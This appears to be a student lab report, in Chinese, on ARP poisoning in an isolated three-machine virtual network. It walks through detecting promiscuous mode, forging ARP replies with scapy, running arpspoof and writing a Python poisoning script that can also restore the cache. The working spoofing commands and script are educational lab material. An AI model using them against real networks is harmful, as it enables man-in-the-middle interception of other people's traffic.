# 网络监听

## 实验目的

- 了解ARP投毒过程
- 熟悉scapy的使用

## 实验要求

- 使用至少三台机器，连接在同一个内部网络中

#### 网络拓扑




#### 各节点信息


- 网关
    - 172.16.111.1
    - 08:00:27:63:7b:12


- 攻击者主机
    - 172.16.111.113
    - 08:00:27:82:b2:51/eth0


- 受害者主机
    - 172.16.111.144
    - 08:00:27:8e:93:b6/eth0

## 实验准备

#### 安装scapy

在攻击者主机上安装好scapy：

```python
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```





## 实验一：检测局域网中的异常终端

```python
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
# link/ether 08:00:27:aa:ff:3e brd ff:ff:ff:ff:ff:ff
```



```python
# 在攻击者主机上开启 scapy
sudo scapy
```



```python
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.144")
```



```python
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 

ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
# link/ether 08:00:27:8e:93:b6 brd ff:ff:ff:ff:ff:ff
```



```python
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.144")
```



```python
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```


## 实验二：手工单步“毒化”目标主机的 ARP 缓存

在攻击者主机上的 scapy 交互式终端完成:

```python
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```



```python
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)
# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```



```python
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.144
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.144", hwdst="08:00:27:82:b2:51")
# 实验课件给出的arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.144", hwdst="08:00:27:82:b2:51")无法替换MAC地址。

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址:

```python
ip neigh
```



回到攻击者主机上的 scapy 交互式终端继续执行命令。

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:63:7b:12", pdst="172.16.111.144", hwdst="08:00:27:8e:93:b6")
sendp(restorepkt1, count=10, inter=0.2)
## 课件中给出的restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:63:7b:12", pdst="172.16.111.144", hwdst="08:00:27:8e:93:b6")无法恢复MAC地址。
## （可选）伪装受害者给网关发送 ARP 响应
restorepkt2 = Ether()/ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:63:7b:12", psrc="172.16.111.144", hwsrc="08:00:27:8e:93:b6")
sendp(restorepkt2, count=10, inter=0.2)
## 课件中给出的restorepkt2 = ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:63:7b:12", psrc="172.16.111.144", hwsrc="08:00:27:8e:93:b6")无法恢复MAC地址。
```



此时在受害者主机上准备“刷新”网关 ARP 记录。

```python
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```



## 实验三（可选）使用自动化工具完成 ARP 投毒劫持实验

使用kali-arpspoof工具进行中间人arp投毒:

```python
# 下载并安装arpspoof
sudo apt update && apt install -y dsniff ssldump
# 查看arpspoof使用手册
man arpspoof
# 劫持
sudo arpspoof -i eth0 -t 172.16.111.144<想要劫持的目标主机> 172.16.111.1<想要伪装成的主机ip>
```

下载并安装arpspoof



查看arpspoof使用手册



劫持替换MAC地址



恢复MAC地址(ctrl+c即可自动恢复)



## 实验四（可选）基于 scapy 编写 ARP 投毒劫持工具

首先在kali-attacker主机上查看是否自带python以及版本



使用vim编辑器编写脚本：

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-
from scapy.all import ARP, Ether, get_if_hwaddr, sendp,srp
from scapy.layers.l2 import getmacbyip

def get_mac(target_ip):
        '''
        使用getmacbyip函数查找主机MAC地址
        '''
        target_mac = getmacbyip(target_ip)
        if target_mac is not None:
                return target_mac
        else:
                print("无法获取IP为：%s 主机的MAC地址"%target_ip)

def create_arp_target(src_ip,src_mac,target_ip,target_mac):
        '''
    生成ARP数据包，伪造网关欺骗目标计算机
    src_mac:本机的MAC地址，充当中间人
    target_mac:目标计算机的MAC
    src_ip:要伪装的IP，将发往网关的数据指向本机（中间人），形成ARP攻击
    target_ip:目标计算机的IP
    op=is-at,表示ARP响应
        '''
        pkt1 =Ether()/ ARP(op=2,psrc=src_ip,hwsrc=src_mac,pdst=target_ip,hwdst=target_mac)
        return pkt1

def create_arp_gateway(gateway_ip):

        pkt2 = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,pdst=gateway_ip)
        return pkt2

def main():
        src_ip = "172.16.111.113"
        interface="eth0"
        src_mac = get_if_hwaddr(interface)
        target_ip="172.16.111.144"
        target_mac=get_mac(target_ip)
        gateway_ip = "172.16.111.1"
        arpbroadcast = create_arp_gateway(gateway_ip)
        # 发送这个 ARP 广播请求
        recved = srp(arpbroadcast, timeout=2)
        # 网关 MAC 地址如下
        gateway_mac = recved[0][0][1].hwsrc
        arpspoofed = create_arp_target(gateway_ip,src_mac,target_ip,src_mac)
        sendp(arpspoofed)
        choice = input("恢复受害者主机ARP缓存?(y/n):")
        if choice == 'y':
                restorepkt1=create_arp_target(gateway_ip,gateway_mac,target_ip,target_mac)
                sendp(restorepkt1,count=20,inter=0.1)
                restorepkt2=create_arp_target(target_ip,target_mac,gateway_ip,gateway_mac)
                sendp(restorepkt2,count=20,inter=0.1)


if __name__=='__main__':
        main()
```

执行脚本并在受害者主机上使用```ip neigh```查看ARP缓存，可以发现劫持成功：



恢复受害者主机ARP缓存，并在主机上使用```ip neigh```查看：



## 实验中遇到的问题与解决办法

**1.使用scapy相关语句在终端执行时，出现报错，根据提示发现权限不足**

最初进入scapy操作端我只是在命令行输入```scapy```，所以出现如下报错，后退出scapy再使用```sudo scapy```语句，即可成功执行指令。



**2.在第二个实验中，出现无法劫持目标主机的情况**

当时根据在线课本里给出的实验步骤操作，执行之后在受害者主机上查看ARP缓存，发现并没有替换MAC地址，后来翻阅上一届师哥师姐的相关文档，发现给出的执行指令和课件不同，执行文档中指令之后成功劫持替换MAC地址。

老师给出的执行指令如下：





有效的指令如下：

```python
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.144", hwdst="08:00:27:82:b2:51")

restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:63:7b:12", pdst="172.16.111.144", hwdst="08:00:27:8e:93:b6")
sendp(restorepkt1, count=10, inter=0.2)

restorepkt2 = Ether()/ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:63:7b:12", psrc="172.16.111.144", hwsrc="08:00:27:8e:93:b6")
sendp(restorepkt2, count=10, inter=0.2)
```


**3.在执行scapy脚本时出现报错**



原因是该文件夹下一开始写了一个scapy.py的文件(自己随便写的无效的)，删除该文件之后可以运行。

## 参考资料

[使用kali-arpspoof工具进行中间人arp投毒](https://blog.csdn.net/qq_54780911/article/details/121891827)

[python+scapy实现ARP欺骗](https://blog.csdn.net/hell_orld/article/details/109256419)

[Python scapy 实现一个简易 arp 攻击脚本](https://juejin.cn/post/6844903461562089486)

[实验四教学wiki](http://courses.cuc.edu.cn/course/90732/learning-activity/full-screen#/378666)

[2021-ns-public-luminous-123](https://github.com/CUCCS/2021-ns-public-luminous-123/blob/chap0x04/chap0x04)


